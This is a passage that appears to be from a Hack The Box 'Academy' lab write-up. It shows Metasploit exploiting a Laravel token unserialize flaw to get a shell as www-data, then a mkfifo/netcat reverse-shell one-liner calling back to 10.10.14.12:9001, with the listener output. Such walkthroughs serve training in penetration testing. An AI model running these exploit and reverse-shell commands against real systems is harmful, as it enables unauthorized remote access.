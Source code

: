 ```bash
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Path to target webapp
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/http/laravel_token_unserialize_exec) > set rhosts http://dev-staging-01.academy.htb/
rhosts => dev-staging-01.academy.htb/
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set lhost tun2
lhost => 10.10.14.12
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
VHOST => dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] Command shell session 1 opened (10.10.14.12:4444 -> 10.10.10.215:57648) at 2021-09-12 16:35:07 -0400
[*] Command shell session 2 opened (10.10.14.12:4444 -> 10.10.10.215:57650) at 2021-09-12 16:35:08 -0400

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> make sure to set `vhost` even though metasploit options shows not required.

- moving shell to netcat from metasploit

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 9001 >/tmp/f
```
__Result__

```bash
$ nc -lvnp  9001
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.215] 51538
/bin/sh: 0: can't access tty; job control turned off
$
```
